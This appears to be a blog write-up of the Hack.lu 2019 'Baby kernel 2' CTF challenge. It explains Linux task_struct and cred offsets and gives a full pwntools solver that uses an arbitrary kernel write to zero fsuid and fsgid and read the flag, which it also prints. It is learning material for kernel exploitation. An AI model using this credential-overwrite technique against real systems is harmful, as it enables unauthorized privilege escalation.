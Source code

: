 ```yaml
---
layout: post
title: Intro to Kernel Pwning - Hack.lu 2019
date: 2019-11-03 19:54
summary: A great beginner Linux kernel pwn from Hack.lu 2019
categories:  CTF kernel linuk kernelpwn hacklu hack.lu
---
```


## Intro Kernel Pwn: Baby kernel 2 from [Hack.lu](https://fluxfingersforfuture.fluxfingers.net/challenges) 2019 CTF

### Challenge Summary:

The challenge is the second step in a series of intro kernel pwning challenges, beginning with last year's Hack.lu Baby Kernel 1. This year we are given a kernel that when ran, presents us with the following options:
1. Read from a memory address
2. Write to a memory address
3. Get our UID
4. Read a file

![kernel menu](/images/baby_kernel_2-menu.png)

Given the information we have thus far, we can assume that we need a way to gain elevated privilidges in order to read some file… maybe a flag file… ( •͡˘ _•͡˘).

### Further Analysis:

After unpacking the init file system and dumping the baby_kernel_2.ko module into a decompiler, you’ll notice that we are given a free 8-byte write anywhere in kernel land. This is triggered when using the write option in the menu.

To further understand this challenge, we must also recognize that we have System.map. The symbol table contains all of the kernel’s symbol names and their addresses. Symbols provide names of important information in a binary (functions, variables, etc.) and map these names to their location in memory. In this case, System.map provides us with the symbols for vmlinux. Most notably, current_task.

`current_task`(also referred to as `current`) is a pointer to the current executing task's `task_struct` [`task_struct`](http://140.120.7.21/LinuxRef/ProcMana/ProcessManaging.html). The kernel refrences each task using its task_struct. The task struct contains information about a process like its credentials and memory layout. We are specifically interested in the current process' [`cred_struct`](https://github.com/torvalds/linux/blob/master/include/linux/cred.h). If we can overwrite the current process' `cred_struct` to elevate its privilidges to root, we can read any file.

{% highlight c %}
struct task_struct {
    ...
	/* Process credentials: */

	/* Tracer's credentials at attach: */
	const struct cred __rcu		*ptracer_cred;

	/* Objective and real subjective task credentials (COW): */
	const struct cred __rcu		*real_cred;

	/* Effective (overridable) subjective task credentials (COW): */
	const struct cred __rcu		*cred;
	...
{% endhighlight %}

{% highlight c %}
struct cred {
	...
	kuid_t		uid;		/* real UID of the task */
	kgid_t		gid;		/* real GID of the task */
	kuid_t		suid;		/* saved UID of the task */
	kgid_t		sgid;		/* saved GID of the task */
	kuid_t		euid;		/* effective UID of the task */
	kgid_t		egid;		/* effective GID of the task */
	kuid_t		fsuid;		/* UID for VFS ops */
	kgid_t		fsgid;		/* GID for VFS ops */
	...
{% endhighlight %}

Every `task_Struct` contains a pointer to the processes's `cred_struct`. In order to accomplish overwriting the current processes's creds with our 8 byte write, we need to know the offset of the `cred_struct` in the `task_struct`. Once we know the address of the `cred_struct` we can get the offset of the privilidge ID's and overwrite them. We can figure out the offsets using a little gdbfoo:

```
(gdb) ptype /o struct task_struct
...
/* 1008      |     8 */    const struct cred *ptracer_cred;
/* 1016      |     8 */    const struct cred *real_cred;
/* 1024      |     8 */    const struct cred *cred;
...
```

```
(gdb) ptype /o struct cred
/* offset    |  size */  type = struct cred {
/*    0      |     4 */    atomic_t usage;
/*    4      |     4 */    kuid_t uid;
/*    8      |     4 */    kgid_t gid;
/*   12      |     4 */    kuid_t suid;
/*   16      |     4 */    kgid_t sgid;
/*   20      |     4 */    kuid_t euid;
/*   24      |     4 */    kgid_t egid;
/*   28      |     4 */    kuid_t fsuid;
/*   32      |     4 */    kgid_t fsgid;
```

Now that we know all the offsets, we can overwrite the creds of the current process. For this challenge, I only needed to overwrite `fsuid` and `fsgid` in order to gain privs to read `flag`. Here is my complete solver:

{% highlight python %}
from pwn import *

conn = remote("babykernel2.forfuture.fluxfingers.net", 1337)

def read(addr):
    conn.sendlineafter('> ', str(1))
    conn.sendlineafter('> ', str(hex(addr)))
    resp = conn.recvuntil("---").split()[22]
    return resp

def write(addr, val):
    conn.sendlineafter("> ",str(2))
    conn.sendlineafter("> ",str(hex(addr)))
    conn.sendlineafter("> ",str(val))
    return

def show_flag():
    conn.sendlineafter("> ",str(4))
    conn.sendlineafter("> ","flag")
    print(conn.recvuntil("}"))

#The pointer to current_task struct from System.map stored at current_task
current_task_ptr = 0xffffffff8183a040
current_task = read(current_task_ptr) #address of task_struct
log.info("current_task struct: 0x%s" % current_task)

"""
(gdb) ptype /o struct task_struct
/* 1008      |     8 */    const struct cred *ptracer_cred;
/* 1016      |     8 */    const struct cred *real_cred;
/* 1024      |     8 */    const struct cred *cred;
"""

#Offset of cred_struct into task_struct obtained from gdb
cred_off = 1024 #ptype /o struct task 0x400
cred_struct_ptr = int(current_task, 16) + cred_off

#cred_struct location
cred_struct = int(read(cred_struct_ptr), 16)
log.info("cred_struct: 0x%x" % cred_struct)

"""
(gdb) ptype /o struct cred
/* offset    |  size */  type = struct cred {
/*    0      |     4 */    atomic_t usage;
/*    4      |     4 */    kuid_t uid;
/*    8      |     4 */    kgid_t gid;
/*   12      |     4 */    kuid_t suid;
/*   16      |     4 */    kgid_t sgid;
/*   20      |     4 */    kuid_t euid;
/*   24      |     4 */    kgid_t egid;
/*   28      |     4 */    kuid_t fsuid;
/*   32      |     4 */    kgid_t fsgid;
"""

#exploit part
log.info("Overwriting fsuid")
write(cred_struct+28, 0) #set fsuid = 0, 0 = root privilidges

log.info("Overwriting fsgid")
write(cred_struct+32, 0) #set fsgid = 0

show_flag()
{% endhighlight %}


## Summary

Overall, I thought this was a great intro kernel pwning challenge, and I would highly reccommend it to anyone wanting to try kernel pwning. The key to solving this challenge is knowing a bit about Linux kernel symbols and some GDB skills to obtain offsets. 

If you are using Ghidra you must update to a version >= 9.1. For some reason Ghidra releases below 9.1 cannot handle decompiling kernel modules.

Flag: flag{nicely_done_this_is_how_a_privesc_can_also_go}

Solver is on [github]()

### Creds
- [@Kallsyms](https://twitter.com/kallsyms)
- [@Hack.lu](https://twitter.com/hack_lu?lang=en)